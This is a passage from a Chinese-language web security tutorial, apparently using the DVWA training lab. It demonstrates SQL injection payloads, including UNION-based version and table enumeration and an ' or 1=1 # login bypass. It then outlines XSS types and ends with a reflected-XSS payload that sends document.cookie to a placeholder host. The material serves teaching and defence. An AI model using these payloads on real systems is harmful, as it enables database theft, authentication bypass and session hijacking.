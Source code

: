  - 同理，我们再输入` 1' union select version(),@@version_compile_os#`进行查询：
 `version()`获取当前数据库版本.
 `@@version_compile_os`获取当前操作系统.

通过返回信息，我们又成功获取到：
当前数据库版本为：5.6.31-0ubuntu0.15.10.1.
当前操作系统为：debian-linux-gnu.

 - 接下来尝试获取dvwa数据库中的表名。`information_schema`是mysql自带的一张表，这张数据表保存了Mysql服务器所有数据库的信息，如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为tables的数据表，该表包含两个字段`table_name`和`table_schema`，分别记录DBMS中的存储的表名和表名所在的数据库。
 
 我们输入` 1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：

通过上图返回信息，我们再获取到：
dvwa数据库有两个数据表，分别是guestbook和users。

### 验证绕过
我们使用实现编写好的页面——普通的登录页面，只要输入正确的用户名和密码就能登录成功。

我们尝试在用户名中输入` 123' or 1=1 #`，密码同样输入` 123' or 1=1 #`。显示登陆成功！因为实际执行的语句是：

```PHP
select * from users where username='123' or 1=1 # ' and password='123' or 1=1 # '
```

按照Mysql语法，#后面的内容会被忽略，所以实际上密码框里不输入任何东西也一样。

由于判断语句 `or 1=1`恒成立，所以结果当然返回真，成功登陆。

## XSS
  `跨站脚本攻击`（Cross Site Scripting），为了不和`层叠样式表`（Cascading Style Sheets,CSS）的缩写混淆，故将跨站脚本攻击缩写为`XSS`。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
  
### 反射型XSS
又称为`非持久性XSS`，这种攻击往往具有一次性。

攻击者通过邮件等形式将包含XSS代码的链接发送给正常用户，当用户点击时，服务器接受该用户的请求并进行处理，然后把带有XSS的代码发送给用户。用户浏览器解析执行代码，触发XSS漏洞。

### 存储型XSS
又称为`持久型XSS`，攻击脚本存储在目标服务器的数据库中，具有更强的隐蔽性。

### DOM型 XSS
全称为Document Object Model ，使用DOM`动态访问`更新文档的内容、结构及样式。

服务器响应不会处理攻击者脚本，而是用户浏览器处理这个响应时，DOM对象就会处理XSS代码，触发XSS漏洞。

### XSS基本应用
#### XSS盗取Cookie
存在`反射型XSS漏洞`的站点位置 可以利用以下链接来盗取Cookie：
```html
url?name=<script>document.location=http://ip/cookie.php?cookie="+document.cookie:</script>
```

